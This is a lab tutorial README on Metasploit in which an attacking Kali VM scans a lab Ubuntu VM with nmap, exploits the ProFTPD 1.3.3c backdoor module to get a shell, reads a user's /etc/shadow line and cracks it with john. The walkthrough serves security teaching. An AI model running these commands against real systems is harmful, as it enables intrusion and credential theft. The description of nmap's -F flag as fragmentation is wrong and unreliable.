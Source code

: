# Metasploit-Framework-Introduction
We need two Virtual Machines for this experiment.

## Attacking Machine:
![image](https://github.com/user-attachments/assets/d2481ddc-ef86-4426-af92-c3b2ab785c88)

Network Settings:

![image](https://github.com/user-attachments/assets/ce21e70b-cecf-4ebb-a281-ade56810001e)

IP Address:

![image](https://github.com/user-attachments/assets/beaaa940-19ee-4959-8083-6ba19fd6adec)

192.168.56.102

## Target Machine:

![image](https://github.com/user-attachments/assets/4f7617b3-bd6a-416a-82a3-a34393addcf9)

Network Settings:

![image](https://github.com/user-attachments/assets/5ff4c676-08ae-41bd-b449-0e44cd329f7e)

IP Address:

![image](https://github.com/user-attachments/assets/b29b9698-e14c-4c87-9dc8-bd6007922fc0)

192.168.56.101

## Reconnaissance:

We recon the target device (the Ubuntu machine), we at least collect its IP Address and Username.

Some rudimental methods of recon can be found in the article linked [here](https://dataoverhaulers.com/reconnaissance-in-ethical-hacking/)

## Scanning (using nmap):

At the attacking/Kali VM, scan the target/Ubuntu VM by ‘nmap -F -sV {the IP address of the Target VM}’ to get the list of services and their versions (attack surface).

```
nmap -F -sV {the IP address of the Target VM}
```

-F (Fragmentation): This option fragments the packets being sent during the scan. It breaks the IP packets into smaller pieces to avoid detection by intrusion detection systems (IDS) or firewalls, as fragmented packets are more difficult for such systems to analyze.

-sV (Service Version Detection): This option attempts to determine the version of the services running on the open ports. Nmap sends probes to services and analyzes the responses to identify specific software versions and additional information like service banners.

![image](https://github.com/user-attachments/assets/61e4fb21-29ee-4e27-9c46-a9ca6f708df1)

## MSF Console:

Bring up ‘msfconsole’ from the attacking/Kali VM.

![image](https://github.com/user-attachments/assets/df138b8e-d67b-4e5b-8026-d7b0d4d01bfc)

Inside msfconsole:

'search’ the arms in the arsenal against the service the target machine provided. The arms are service version sensitive, that was the reason we needed to use the -sV option in the nmap scan.

Since after performing the nmap scan we found that ProFTPD was on of the services that is open, we use the msf command:

```
search ProFTPB
```

![image](https://github.com/user-attachments/assets/c01581fc-5456-400e-8eab-c10afd2f99f9)

Then we find some potential vulnerabilities that we could exploit in our target system.

![image](https://github.com/user-attachments/assets/b04453c4-91b8-4f7e-bd2e-50cd6878509f)

We use the following command to start using one of the listed backdoor vulnerabilities:

```
use exploit/unix/ftp/proftpd_133c_backdoor
```

Then we ask msfconsole to show the options:

```
show options
```

Setting the target host we are attacking:

```
set RHOST 192.168.56.101
```

![image](https://github.com/user-attachments/assets/45f5c034-a893-431a-9e0a-cb5ac50e4939)

We type the following command and press TAB button twice or a few times, which lists all the available payloads. Then we try to exploit each one to see which one gets us the access to the terminal of the target system.

```
set payload {press TAB twice or a bit more}
```

```
exploit {the payloads path from the list}
```

When we are in the terminal we can begin our command and control part of the attack.

![image](https://github.com/user-attachments/assets/656f6841-29bf-456a-bcac-678c78ebf9c0)

# Cracking Password for the Ubuntu machine with username: marlinspike

![image](https://github.com/user-attachments/assets/5b3a21c8-3de3-4f55-ba70-57b939032944)

We use the command below to open the /etc/shadow file and extract the line corresponding to the user marlinspike:

```
sudo cat /etc/shadow | grep marlinspike
```

![image](https://github.com/user-attachments/assets/dc047963-b001-49b0-b860-13b4b6b17cde)

We save the output to a text file.

```
sudo cat /etc/shadow | grep marlinspike > shadowMarlinspike.txt
```

![image](https://github.com/user-attachments/assets/c79f7197-fb3d-47f5-9a0a-7302454fc386)

Then we use the command john (John-the-Reaper) to crack the password.

```
john shadowMarlinspike.txt
```

We can login with that password in the target machine:

![image](https://github.com/user-attachments/assets/0d4227b4-0c99-4f39-9e53-015273c06ee5)

![image](https://github.com/user-attachments/assets/04ec9ed9-3910-4e70-8d46-057770871a11)
